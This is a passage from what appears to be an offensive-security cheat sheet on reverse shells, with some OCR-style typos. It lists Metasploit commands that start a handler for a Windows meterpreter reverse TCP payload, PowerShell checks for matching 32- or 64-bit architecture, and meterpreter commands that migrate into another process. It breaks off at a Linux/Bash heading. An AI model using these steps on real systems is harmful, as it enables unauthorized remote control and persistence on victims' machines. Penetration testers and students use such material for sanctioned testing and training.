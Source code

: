 ```
msf> use multi/handler
msf> set PAYLOAD windows/meterpreter/reverse_tcp
msf> set LPORT [PORT]
msf> set LHOST [IP]
msf> run
```

When we execute our _shellcode_ we will receive the **meterpreter** in the handler:

```
.\meterpreter.exe
```

> Be careful, **migrate** the process to the same machine architecture!

## Migrating the reverse shell

### From Powershell:

```
[Environment]::Is64BitOperatingSystem
[Environment]::Is64BitProcess
```

If they don't sahre the same architecture, we will need to create a new Revershell with the appropiate **Powershell path:**

* **For 32 bits:**

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe`

* **For 64 bits:**

`C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe`

### From Meterpreter:

First we need to **list** all processes:

```
meterpreter > ps
```

Afther getting the list of all the processs going on we can **migrate** ourselves to some reliable process:

```
meterpreter > migrate PID
```

# Linux

There are many ways to get a reverse shell in many differents languages and using many differents binaries.

## Bash
